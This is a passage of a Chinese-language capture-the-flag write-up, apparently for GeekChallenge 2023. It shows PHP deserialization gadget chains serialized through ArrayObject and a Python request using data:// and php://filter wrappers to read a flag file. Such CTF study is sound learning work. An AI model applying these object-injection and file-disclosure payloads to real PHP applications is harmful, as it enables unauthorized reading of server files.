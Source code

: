 			  $o = $useless;
			  $a = new ArrayObject([114 => 514]);
			  $a -> o = $o;
			  
			  echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
			  
			  ```
		- 读到一个jpg的base64，解码
			- ![](./assets/geekchallenge2023.jpg)
	- 读flag
		- pop
			- ```php
			  $her_find = new her("momo", 9);
			  $useless = new useless([
			    "seeyou" => [$her_find, "find"]
			  ]);
			  
			  $important = new important();
			  $important -> power = $useless;
			  
			  $her = new her("momo", 9);
			  $her -> asd = $important;
			  
			  
			  $me = new Me();
			  $me -> bro = & $me -> secret;
			  $me -> qwe = $her;
			  
			  $o = $me;
			  $a = new ArrayObject([114 => 514]);
			  $a -> o = $o;
			  echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
			  ```
		- 然后用原生类配合伪协议读文件
			- ```python
			  r = base_post(url, params = {
			      "user": get_payload_fcall(),
			      "file": "data://text/plain,loveyou",
			      # "fun": "glob://f*"
			      "fun": "php://filter/read=convert.base64-encode/resource=flag_my_baby.php"